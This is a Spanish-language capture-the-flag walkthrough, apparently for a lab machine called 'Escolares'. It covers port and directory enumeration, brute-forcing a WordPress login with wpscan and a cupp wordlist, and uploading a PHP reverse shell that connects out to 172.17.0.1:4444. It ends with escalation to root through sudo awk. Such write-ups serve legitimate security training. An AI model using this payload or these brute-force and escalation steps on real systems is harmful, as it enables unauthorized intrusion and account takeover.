


# Escolares

*22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)*
*80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*

Gobuster -> /assets, /wordpress, /phpmyadmin

Con msfconsole al usar *auxiliary(scanner/http/wordpress_login_enum* se detecta la versión de Wordpress 6.5.4

En /contacto vemos que en F12 se da info:

```text
INFORMACION DEL PERSONAL
```


```text
./profesores.html
```

Entrando en /profesores.html se descubre que Luis ;) es el admin wordpress -> puede ser info

En /wordpress se ve que se ha añadido un texto:
*Jun 8, 2024 --- por **luisillo** en **Sin categoría*** -> luisillo puede ser el user

Gobuster más exhaustivo en directorio http://172.17.0.2/wordpress
`gobuster dir -u http://172.17.0.2/wordpress -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30 -x php,html,js,txt`
Encontramos un **wp-login.php**

Se nos dice que falta **escolaes.dl** -> agregar en /etc/hosts -> ahora carga bien pero seguimos sin saber credenciales

Vamos ahora a otro archivo ***xmlrpc.php*** -> es un archivo vulnerable por fuerza bruta conocido de Wordpress

usaremos wpscan (Wordpress scan) y como ninguna contraseña por defecto va a funcionar, nos crearemos un diccionario personalizado con los datos de luis que conocemos
**cupp**



Ejecutamos el ataque con wpscan y ese diccionario:
`wpscan --url http://172.17.0.2/wordpress -U luisillo --passwords luis.txt`
**Luis1981**

Entramos a wordpress y en WP File Manager podremos subir un archivo con una revshell para ganar acceso a la máquina



`<?php exec("bash -c 'bash -i >&/dev/tcp/172.17.0.1/4444 0>&1'"); ?>`
Abrimos la url en el buscador http://172.17.0.2/wordpress/sh3ll.php
**www-data**
`script /dev/null -c bash`
*CTRL+Z*
`stty raw -echo; fg`
`reset`
`xterm`
`export TERM=xterm`
`export SHELL=/bin/bash`
`stty rows 16 columns 184`

## Escalada

Si miramos en el /home de www-data, vemos un *secret.txt* que contiene la password del usuario luisillo
**luisillopasswordsecret**
**luisillo**

*(ALL) NOPASSWD: /usr/bin/awk*
`sudo -u root awk 'BEGIN {system("/bin/sh")}'`
**root**
